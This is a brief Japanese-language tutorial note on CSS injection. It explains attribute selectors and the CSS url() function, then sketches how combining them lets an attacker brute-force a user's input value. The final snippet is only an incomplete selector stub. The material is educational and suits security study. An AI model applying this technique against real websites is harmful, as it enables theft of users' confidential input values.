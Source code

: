 # CSS Injection

- [\# CSS Injection とは](#CSS-Injection-とは)
- [\# Attribute Selector について](#Attribute-Selector-について)
- [\# CSS での HTTP Request について](#CSS-での-HTTP-Request-について)
- [\# Injection](#Injection)


## CSS Injection とは

HTML に対して CSS を挿入することで Web ページ上の機密情報の取得を狙う攻撃のこと。XSSとは異なる分類。

## Attribute Selector について

CSS には Attribute Selector と呼ばれるものがあり、ある要素の属性に条件を与え、その条件を満たす場合のみ CSS を適応する。

例) a 要素の href 属性が *http://* から始まる場合、赤色にする
```css
a[href^="http://"] {
	color: red;
}
```

## CSS での HTTP Request について

CSS では特定の URL を引数にファイル等を参照するための **URL** 関数が用意されている。

```css
body {
	background: url(http://example.com/bg.png);
}
```


## Injection

Attribute Selector と URL 関数を利用することで、ユーザの入力した値を取得することができる。
簡潔に言うと、総当りする。

```css
input[value^=]
```